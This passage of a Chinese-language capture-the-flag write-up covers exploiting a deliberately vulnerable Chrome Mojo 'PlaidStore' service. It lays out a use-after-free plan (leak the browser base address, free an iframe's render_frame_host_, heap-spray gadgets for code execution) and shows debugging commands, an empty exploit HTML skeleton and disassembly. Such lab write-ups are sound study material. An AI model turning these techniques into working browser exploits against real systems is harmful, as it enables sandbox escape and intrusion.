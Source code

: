 

## 漏洞利用

通过前面的分析，现在有了地址泄露和uaf，后续的基本利用流程如下
- 1 泄露出 chrome 的基地址 =&gt; 获取gadget
<li>2 添加`iframe`, 返回`render_frame_host_` 的地址和 `p`
</li>
- 3 删除 iframe, 堆喷改写`iframe`的 `render_frame_host_` ，写入gadget 代码执行
接下来一个一个看

### <a class="reference-link" name="%E8%B0%83%E8%AF%95"></a>调试

题目给出了`Dockerfile` 可以直接搞个`Docker` 来调试，这里我在`ubuntu1804`下， 执行`./chrome   --disable-gpu --remote-debugging-port=1338  --enable-blink-features=MojoJS,MojoJSTest` 运行`chrome`， 然后`gdb attach` 即可， 因为这里是调试 mojo代码，我们attach browser进程(第一个)

编写 exp, `mojo_js.zip` 解压到`www` 目录下， 这里我的exp 写在`www/poc/e2xp.html` 里面, 包含好对应的`js`，然后启动web服务器就可以访问了

```
&lt;!DOCTYPE html&gt;
&lt;html&gt;
    &lt;head&gt;
        &lt;style&gt;
            body `{`
              font-family: monospace;
            `}`
        &lt;/style&gt;
    &lt;/head&gt;
    &lt;body&gt;
        &lt;script src="../mojo/public/js/mojo_bindings_lite.js"&gt;&lt;/script&gt;
        &lt;script src="../third_party/blink/public/mojom/plaidstore/plaidstore.mojom-lite.js"&gt;&lt;/script&gt;
        &lt;script&gt;
        &lt;/script&gt;
    &lt;/body&gt;
&lt;/html&gt;
```

### <a class="reference-link" name="%E6%B3%84%E9%9C%B2%20chrome%20%E5%9F%BA%E5%9C%B0%E5%9D%80"></a>泄露 chrome 基地址

`PlaidStore` 对象创建的时候会分配内存, 可以想下面这样找函数的地址

```
chrome$ nm --demangle  ./chrome |grep -i 'PlaidStoreImpl::Create'
0000000003c58490 t content::PlaidStoreImpl::Create(content::RenderFrameHost*, mojo::PendingReceiver&lt;blink::mojom::PlaidStore&gt;)
```

gdb 下查看 `content::PlaidStoreImpl::Create` 代码如下

```
push   rbp
mov    rbp,rsp
push   r15
push   r14
push   rbx
sub    rsp,0x38
mov    r14,rsi
mov    rbx,rdi
// PlaidStore 对象分配内存 ==&gt; buffer64
mov    edi,0x28
call   0x55555ac584b0 &lt;operator new(unsigned long, std::nothrow_t const&amp;)&gt;
// rcx == vtable
lea    rcx,[rip+0x635e2ec]        # 0x55555f50a7a0 &lt;vtable for content::PlaidStoreImpl+16&gt;
```